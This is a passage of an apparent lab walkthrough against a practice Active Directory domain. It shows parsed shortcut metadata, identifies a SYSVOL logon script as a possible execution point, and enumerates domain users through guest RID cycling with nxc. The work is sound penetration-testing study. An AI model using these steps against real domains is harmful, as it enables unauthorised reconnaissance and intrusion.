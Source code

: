 ```bash
               Value: null
               Value type: VT_FILETIME
            -  Value size: 21
               Id: 12
               Value: null
               Value type: VT_UI8
            -  Value size: 61
               Id: 4
               Value: VBScript Script File
               Value type: VT_LPWSTR
            -  Value size: 21
               Id: 14
               Value: null
               Value type: VT_FILETIME
         -  Storage size: 149
            Version: '0x53505331'
            Format id: 28636AA6-953D-11D2-B5D6-00C04FD918D0
            Serialized property values:
            -  Value size: 121
               Id: 30
               Value: C:\Windows\SYSVOL\sysvol\baby2.vl\scripts\login.vbs
               Value type: VT_LPWSTR
         -  Storage size: 57
            Version: '0x53505331'
            Format id: 446D16B1-8DAD-4870-A748-402EA43D788C
            Serialized property values:
            -  Value size: 29
               Id: 104
               Value: null
               Value type: VT_CLSID
```

The shortcut resolves to `C:\Windows\SYSVOL\sysvol\baby2.vl\scripts\login.vbs`. That aligns with a common pattern: a domain logon script centrally stored in `SYSVOL`.

I open `login.vbs` and confirm it maps network drives (e.g., mapping `\\dc.baby2.vl\apps` to a drive letter). That tells me this VBScript runs **at user logon**, which makes it a potential execution primitive if I can edit it.

## Enumerating Users
Guest can’t list users directly, but RID cycling works. I enumerate SIDs to build a user list:
```bash
❯ nxc smb dc.baby2.vl -u guest -p '' --rid-brute \
  | grep SidTypeUser \
  | awk -F'\\\\' '{print $2}' \
  | awk '{print $1}' \
  | tee users

Administrator
Guest
krbtgt
DC$
gpoadm
Joan.Jennings
Mohammed.Harris
Harry.Shaw
Carl.Moore
Ryan.Jenkins
Kieran.Mitchell
Nicola.Lamb
Lynda.Bailey
Joel.Hurst
Amelia.Griffiths
```